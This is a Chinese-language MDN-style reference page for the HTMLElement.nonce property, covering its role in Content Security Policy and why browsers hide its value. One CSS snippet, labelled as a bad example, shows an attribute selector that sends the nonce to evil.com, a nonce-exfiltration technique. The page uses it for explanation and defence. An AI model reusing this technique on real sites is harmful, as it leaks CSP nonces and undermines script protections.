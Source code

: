 ```yaml
---
title: HTMLElement.nonce
slug: Web/API/HTMLElement/nonce
---
```


{{APIRef("HTML DOM")}}

{{domxref("HTMLElement")}} 接口的 **`nonce`** 属性返回只使用一次的加密数字，被内容安全政策用来决定这次请求是否被允许处理。

在接下来的实现中，有 nonce 属性的元素只能在脚本中使用（不可以在其他渠道使用，比如 css 属性选择器）。

## 示例

### 访问 nonce 属性值

以前，并不是所有的浏览器都支持 `nonce` IDL 属性，因此在实际应用场景中，尝试使用 [`getAttribute`](/zh-CN/docs/Web/API/Element/getAttribute) 作为备选：

```js
let nonce = script["nonce"] || script.getAttribute("nonce");
```

然而，最新的浏览器版本都隐藏了 `nonce` 值（返回一个空值）。IDL 属性（`script['nonce']`）成为唯一的访问方式。

隐藏 Nonce 是为了阻止攻击者通过某种机制提取出 nonce 值，比如下面这种方式：

```css example-bad
script[nonce~=whatever] {
  background: url("https://evil.com/nonce?whatever");
}
```

## 规范

{{Specifications}}

## 浏览器兼容性

{{Compat}}
